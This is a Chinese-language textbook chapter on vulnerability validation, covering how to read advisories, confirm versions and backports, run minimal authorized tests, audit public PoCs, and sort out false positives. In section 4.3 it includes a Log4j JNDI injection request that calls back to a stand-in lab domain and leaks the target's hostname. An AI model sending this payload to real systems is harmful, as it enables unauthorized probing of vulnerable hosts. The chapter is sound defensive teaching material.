


# 第四章　漏洞验证：从公告到复现

周三早上八点，一条公告在几个群里同时转开，标题里带着三个感叹号，正文写着某个组件存在远程代码执行，评分九点八。十分钟后有人问你，我们那套系统有没有事。

这个问题有两个完全不同的答案。"有"的意思是那台机器上装着受影响的版本，并且配置满足触发条件，并且攻击者能到达那个入口。"可能有"的意思是版本对得上，别的都不知道。绝大多数时候，回答前者需要动手，而动手的第一步不是找 PoC，是把公告读懂。

资产表上那几十条记录，每一条都要过一遍同样的问题。这一章讲的就是这一遍怎么过，以及怎么把"我打了一下，有反应"变成一句站得住的结论。

## 4.1 公告里哪几句话是能用的

vendor 的安全公告有固定结构，真正决定你要不要动手的只有三段。

第一段是受影响版本。写法通常是区间，比如"2.0-beta9 到 2.14.1"。区间要逐字读，因为端点是开是闭经常写得含糊，"2.15.0 之前的版本"和"2.14.1 及更早"在边界上差一个版本。看到区间之后立刻回头对照资产表，对不上的直接划掉，这一步能砍掉大半工作量。

第二段是触发条件。同样一个内存破坏漏洞，有的要求攻击者已经登录，有的要求目标开启了某个可选模块，有的要求协议走特定分支。公告里这几句通常写得最短，也最容易被跳过。Log4j 那次（CVE-2021-44228）的条件是日志消息里出现 `${jndi:...}` 这样的字符串，且消息被 lookup 求值。也就是说，光有版本还不够，得有一条把用户输入写进日志的路径。

第三段是修好的版本。它同时告诉你两件事，升级到哪儿算安全，以及出问题的那段代码在哪个功能里。有些公告会在"workaround"里写临时缓解办法，比如关掉某个开关。这类句子比升级路径更值得抄下来，因为线上系统升级要排期。

评分不该当成决策依据。CVSS 的分数是在一组假设下算出来的，假设里包含攻击者位置、是否需要认证、影响范围。你的环境未必满足这些假设，也可能比假设更糟。一台只能从跳板机访问的旧服务，评分九点八和评分五点三对你来说没有区别。

公告之外还有两个信息源值得交叉核对。一个是修复提交本身，公告里的链接通常指向某个 commit，看差异比看描述准确得多。差异会告诉你触发点落在哪个函数、判断条件是怎么加上的。如果修复的做法是在入口处加了一层白名单，说明触发路径就是那个入口，验证时直接打那里，不用绕别的弯。

另一个是组件在目标里的存在形态。它可能是独立跑着的服务，可能是被上层应用打包进 fat jar 的依赖，也可能是静态链接进二进制的库。形态不同，确认方法完全不同。独立服务看进程和端口，fat jar 要解开包看 `BOOT-INF/lib` 下有没有那个 jar，静态链接只能靠字符串和符号去认。不少漏报就出在这里，人只查了服务列表，而组件其实躺在某个应用的依赖里。

## 4.2 从指纹推到具体版本

公告按版本说话，版本号是整个判断的支点。麻烦在于，版本号有可信度之分。

<figure>

<figcaption>图 4-1　从公告到验证的四道门。每一道都可能终止判断，也可能把结论降级成“无法确定”，只有四道全部通过才值得发一次请求。</figcaption>
</figure>

图上这四道门的顺序不能换。版本对不上就结束，这一步最便宜，一个下午能过完几百条资产。版本对上之后查补丁，再查配置，最后才看网络位置。顺序反过来的话，你会在一个根本到不了的资产上花掉整个下午，然后发现它的版本早就对了。

最可信的是包管理器自己的记录。Debian 系的 `/var/lib/dpkg/status` 里写着包名和版本，RPM 系用 `rpm -qa`。有这份记录，版本就是确定的。

```bash
dpkg -l | grep -i log4j
rpm -qa | grep -i log4j
```

第二层是应用自带的版本声明。Java 的 `META-INF/MANIFEST.MF`、Python 的 `*.dist-info/METADATA`、Node 的 `package.json`，都是打包时写进去的，改的人少。再往下一层是变更日志和错误页，`/CHANGELOG.md`、`/actuator/info`，以及抛异常时带出的框架版本。这些是运行时行为，也算可靠。

最不可信的是响应头。`Server` 和 `X-Powered-By` 会被反向代理覆盖，也会被运维随手改掉。用响应头判断版本，只适合初筛，不适合下结论。

拿到版本号之后还有一个坑，叫补丁回移（backport）。发行版维护者会把这个漏洞的修复单独摘出来，打进旧版本的包里，版本号保持不变。于是你看到 `2.17.0`，以为落在受影响区间，实际上早就修好了。

```bash
zcat /usr/share/doc/liblog4j1.2-java/changelog.Debian.gz | head -40
```

发行版的 changelog 会列出每个补丁对应的 CVE 编号。查目标版本对应的条目里有没有这个编号，就知道补丁在不在。没有 changelog 的时候，退一步的办法是对比文件哈希，或者看关键函数那几个字节。

版本比较本身也容易写错。`2.9` 和 `2.14.1` 按字典序比，`9` 大于 `1`，于是 `2.9` 被判成更新。字符串比较在版本号上一定出错，必须按段拆成数字再比。

```python
from packaging.version import Version, InvalidVersion

def hit(found, low, high):
    try:
        v = Version(found)
    except InvalidVersion:
        return None
    return Version(low) <= v <= Version(high)
```

`packaging` 这个库处理了 `1.0rc1`、`2.0b9` 这类预发布标记，自己手写解析很难覆盖。返回值用 `None` 表示"版本号解析不了"，和 `False` 分开，因为这两者的后续处理不一样。解析不了的要人去看，不能当成安全。

多组件叠加是另一种情况。一个 Java 应用可能同时带着 log4j、fastjson、commons-collections，其中任何一个出问题都够呛。这时候资产表的粒度要下沉到依赖层，一条记录对应一个具体的 jar 和它的版本，而不是整个应用一个版本号。粒度不够，后面所有的判断都是在猜。

## 4.3 最小验证

版本对上了，条件也大致满足，接下来构造一次验证。验证的目标只有一个，证明这条路径在你的环境里能被触发。它不该顺手拿走任何东西，不该修改任何数据，不该留下一个能用的后门。

四条自我约束。单点，一次只动一个变量，否则出了意外说不清是哪一步造成的。可逆，所有写入都指向自己造的测试对象，验证完能删掉。可观测，结果落在你能看见的地方，而不是靠"感觉它执行了"。不越权，只碰授权的资产，只读的地方一律不写。

还有一条不在纸面上的，验证要有时间窗口。说好在两个小时里做，就两个小时，到点停下来汇报，而不是"再试最后一个 payload"。窗口之外别人可能在用这台机器，一次没打招呼的重启会让整件事变成事故。

验证的载体按侵入性从低到高排。回显最干净，服务端把计算结果直接返回给你，比如注入之后页面上多出一列。布尔差异次之，同一个请求换个条件，页面内容或状态码跟着变。时间排在第三，让服务端多等几秒，用响应耗时判断条件真假。带外最脏，让服务端向你的服务器发起一次请求。

验证前先拍一张快照。虚拟机的快照几秒钟的事，但它决定了你能不能毫无顾虑地做实验。没有快照的时候，人会不自觉地保守，该写的地方不敢写，于是验证停在一个模糊的中间状态。有快照的时候，出问题回滚就行，判断能推到清晰的位置。

带外验证需要一个自己能看日志的域名。在实验网里更简单，开一台机器抓包就够。

```bash
sudo tcpdump -ni any 'udp port 53' -l | grep --line-buffered lab.example
```

`-l` 让 tcpdump 逐行刷新，`--line-buffered` 让 grep 不攒缓冲。少了这两个参数，你会以为目标没回连，其实只是管道还在缓冲。

带外验证有一个陷阱。收到回连只能证明"目标发起了一次解析请求"，不能证明"代码被执行了"。DNS 查询可以由很多中间环节发出，包括代理、日志采集器、沙箱设备。要证明执行，得让 payload 带回一个只有目标才知道的值。

```bash
curl -s "http://10.10.10.30:8080/api/search?q=\${jndi:ldap://\${hostName}.lab.example/}"
```

这条请求只让它解析一次，不做后续的类加载。日志里出现 `web01.lab.example` 这样的记录，才说明求值真的发生在目标进程里。至于它到底做了什么，验证到此为止，后面的事不属于"验证"。

## 4.4 读 PoC，先找它依赖什么

<figure>

<figcaption>图 4-2　一个 PoC 真正依赖的四类条件。版本只是第一层，配置、权限和网络位置任意一项不满足，代码跑得通也打不中。</figcaption>
</figure>

公开的 PoC 大多数不是为你准备的。它写着"已验证"，验证的是作者那台机器。直接跑，常见结果是一串 Python 异常，或者更糟，程序安静地返回 0 而什么都没发生。

读 PoC 的顺序和读公告相反，从依赖读起。先看它硬编码了什么，再看它假设了什么。

硬编码的东西通常是地址、偏移、端口、路径、域名。示例代码里那句 `TARGET = "192.168.1.10"`、`LIBC = "./libc-2.31.so"`、`OFFSET = 0x1a2b3c`，每一个都是作者环境的坐标。换到你的环境，这些值全部要重算。

假设的东西更隐蔽。版本假设写在注释或 README 里，比如"仅在 5.16.10 上测试"。配置假设藏在成功判据里，例如它读 `/proc/sys/kernel/kptr_restrict` 却从不检查结果。权限假设通常不写，你从它需要 `sudo` 这一点能推出来。网络位置假设最难发现，一个在公网能打的漏洞，从你的测试网段发过去可能被中间设备吞掉。

改造的第一步是把所有环境相关的东西提到最上面。

```python
import argparse, logging

TARGET = "10.10.10.30"
PORT = 8080
SAFE = True
TIMEOUT = 5.0

logging.basicConfig(level=logging.INFO,
                    format="%(asctime)s %(levelname)s %(message)s")
```

`SAFE` 这个开关不是装饰。把它写进代码，意味着你在动手时就想过"哪一步会留下痕迹"，而不是出事之后回头找。验证脚本应该有一个只做前置检查的分支，检查版本、检查端点可达、检查错误特征，全部通过才往下走。

读 PoC 还要判断它本身有没有恶意。公开仓库里的代码可以顺手把你的机器变成肉鸡，几行 `requests.post` 就能把本地文件发出去。看三个地方，有没有对外部的网络请求、有没有读写你机器上的文件、有没有 base64 或 `exec` 包裹的代码块。有就先在断网的虚拟机里跑，跑的时候抓包。

改完给每一步加日志，记录发了什么、收到什么、耗时多少。理由很实在，失败的时候你只有这份日志。三个小时之后回头看一次静默失败，没有日志就只剩重跑一条路。

## 4.5 假阳性从哪儿来

扫描器报出来的漏洞里，能真正打通的不到一半。剩下的那些不一定是扫描器写错了，多数是判据太粗。

最常见的形式是版本号匹配。扫描器读到 `Server: nginx/1.18.0`，查表发现这个版本落在某条公告的区间里，报一个高危。它不知道这个 nginx 是发行版重新打包过的，补丁已经打进包里。这就是上一节说的回移问题，扫描器看不到 changelog。

第二个来源是配置。同一个组件，功能开着和关着是两种东西。反序列化端点存在，但需要认证；上传接口存在，但落到只读目录；管理台存在，但只监听回环地址。这些条件扫描器看不到，只有人能确认。

第三个来源是中间设备。WAF 拦下请求返回一个 403 页面，扫描器可能读成"存在但被保护"，也可能读成"利用失败"。两种解读都不算错，但都不是你要的结论。判断方法是看响应里有没有设备特征，或者拿一个明显无害的请求做对比。

第四个来源是版本号本身。有些产品升级之后仍然返回旧版本号，有些把版本号固定成一个常量。这类产品上，"版本对不上"这条判断彻底失效，只能靠行为验证。

排除假阳性有个省事的办法，在验证记录里给每条结论标一个证据等级。版本匹配算最低，行为差异算中等，完整复现算最高。报告里写清等级，读的人自己会算该给多少权重。等级的用处是防止一种常见错误，把三份最低等级的证据堆在一起，当成一份完整复现。

还有一类假阴性更值得警惕，也就是明明有洞却被判成安全。典型原因是字典和 payload 都太常规，目标做了特征过滤，扫描器的请求被改写或丢弃。另一种原因是入口不在扫的那条路径上，比如功能藏在一个需要登录才出现的菜单里。假阳性浪费你的时间，假阴性让你在报告里写错话，后者更贵。

## 4.6 一条结论该长什么样

验证做完，产出不是一段截图，是一段能被人复核的话。

结论只有三种。可复现，写清在什么条件下、用哪条请求、看到什么现象。不可复现，写清试了什么、卡在哪一步、为什么判断它打不通。无法判断，写清缺什么信息、需要谁的授权或哪台机器的访问。

三种里最容易写坏的是第三种。人有一种倾向，把"没打通"写成"不存在"，因为前者听起来像自己没本事。这两种结论的后果完全不同，一个说这条资产安全了，一个说这条资产还没查清。

证据要留原始材料。请求的完整字节、响应的前几百字节、时间戳、发起请求的那台机器的地址。日志截断到只剩一句"存在漏洞"没有价值，因为复核的人要自己判断这句话对不对。

条件清单单独列一节，把触发的前提一条条写下来。目标版本、组件配置、需要的权限、攻击者所处网段、依赖的外部服务。这份清单的用处不止于记录，它还告诉你修的时候该动哪里。关掉一个可选模块，往往比升级整条链路快得多，而这句话只有写过条件清单的人才说得出来。

别忘时间。验证时用的版本和配置，三个月后可能都变了。记录里要写清验证的时间点，以及依据的是哪一份公告的哪一段。半年后有人拿着这条记录来问，你能一眼看出它是不是已经过期。

版本对上了，条件也满足了，剩下的就是具体形态。Web 是最常见的一类，下一章从注入和跨站开始，因为这两类出现得最早，判断逻辑也最清楚。
